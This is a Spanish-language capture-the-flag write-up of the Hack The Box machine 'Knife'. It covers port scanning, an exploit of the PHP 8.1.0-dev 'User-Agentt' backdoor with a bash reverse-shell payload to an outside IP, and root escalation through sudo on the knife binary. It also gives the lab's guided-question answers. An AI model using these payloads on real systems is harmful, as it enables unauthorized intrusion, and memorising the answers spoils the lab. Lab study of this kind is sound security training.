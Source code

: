 #linux #easy #nmap #ping #whatweb #php810-dev dev #burpsuite #revershell #sudo-l

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en Knife?
	2

2)¿Qué versión de PHP se está ejecutando en el servidor web?
	8.1.0-dev

3)¿Qué cabecera de petición HTTP se puede añadir para conseguir la ejecución de código en esta versión de PHP?
	User-Agentt

4)¿Con qué usuario se ejecuta el servidor web?
	james

*La pregunta anterior era la flag de user.txt*
6)¿Cuál es la ruta completa al binario en esta máquina que James puede ejecutar como root?
	/usr/bin/knife

------------------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.242
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.10.10.242 -oN target
```


![[Knife1.png]]
![[Knife2.png]]
*TTL:* Maquina linux
*Puertos:*
	`22`[[ssh]]
	`80`HTTP

------------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.242/
```

![[Knife3.png]]
Nos informa que la pagina tiene php 8.1.0

-----
# Intrusion Vulnerabilidad php 8.1-dev

Interceptamos la peticion con [[burpsuite]]

![[Knife4.png]]
Ahora vamos a añadir la linea que es vulnerable de User-Agentt: y le vamos a inyectar el one liner que casi siempre usamos para la [[Reverse shell]] 
```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"');
```

Ahora mientras estamos en escucha con [[nc -nlvp 443]], mandamos la peticion
![[Knife5.png]]

Y listo ya estamos adentro de la maquina
![[Knife6.png]]

--------
# [[Tratamiento de la TTY]]

-----
# Escalada de privilegios con [[Abuso de Sudo]]

Usamos el comando `sudo -l`

![[Knife7.png]]
Y nos indica que james puede usar el binario knife, siendo root sin otorgar contraseña

Articulo de [gtfobinds](https://gtfobins.github.io/gtfobins/knife/#sudo) donde nos indica como meter un payload desde sudo para elevar privilegios, asi que lo adaptamos a nuestra maquina
![[Knife8.png]]
```shell
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```
Y listo ya ganamos acceso como root y podemos visualizar las flags

![[Knife10.png]]

-------
# Creditos
[Exploit 49933 de searchsploit](https://www.exploit-db.com/exploits/49933) Que lo pudimos usar de referencia para entender la vulnerabilidad



